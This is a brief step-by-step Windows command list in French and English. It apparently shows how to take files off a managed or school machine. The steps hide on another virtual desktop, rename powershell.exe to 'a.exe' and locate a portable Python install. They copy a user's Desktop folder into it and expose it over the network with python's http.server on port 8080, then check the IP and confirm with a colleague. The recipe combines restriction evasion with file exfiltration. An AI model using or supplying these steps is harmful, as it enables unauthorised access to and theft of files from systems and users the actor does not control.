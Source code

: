 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)

Windows + R : cmd

1.1- Copie du powershell

copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe

2- Find python (A ne pas faire en réel)

Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null

2.1- Get into the directory

cd ../../../EduPython/App

2.2- Copy Info from Desktop 

copy C:\Users\A MODIF\Desktop .

3- Execute python server

.\python.exe -m http.server 8080 (prendre photo)

4- Get the IP from the station

ipconfig (envoyer message check)

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
